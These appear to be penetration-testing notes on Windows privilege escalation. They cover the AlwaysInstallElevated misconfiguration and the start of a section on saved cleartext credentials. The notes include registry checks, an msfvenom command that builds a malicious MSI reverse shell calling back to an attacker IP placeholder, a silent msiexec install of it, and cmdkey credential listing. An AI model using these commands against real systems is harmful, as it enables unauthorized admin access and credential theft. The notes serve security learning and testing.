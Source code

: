 #/windows/exploit/AlwaysInstallElevated

**AlwaysInstallElevated**  
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges if the installation requires administrator privileges.  
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

  
This method requires two registry values to be set. You can query these from the command line using the commands below.  
  
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

```  
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

```
  
Remember, to be able to exploit this vulnerability, **both should be set**. Otherwise, exploitation will not be possible.  
If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below.  
  
``` 
msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

```
  
As this is a reverse shell, you should also run the **Metasploit Handler** module configured accordingly.

Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell.

Command Run on the Target System

  C:\Users\user\Desktop> 
  ``` 
  msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi 
  
  ```
  
  #/windows/exploit/cleartext_passwords
  
  **Passwords**  
We have seen earlier that looking for configuration or user-generated files containing cleartext passwords can be rewarding. There are other locations on Windows that could hide cleartext passwords.  
  
**Saved credentials:** Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials.  
 ```
 cmdkey /list 
 
 ```  
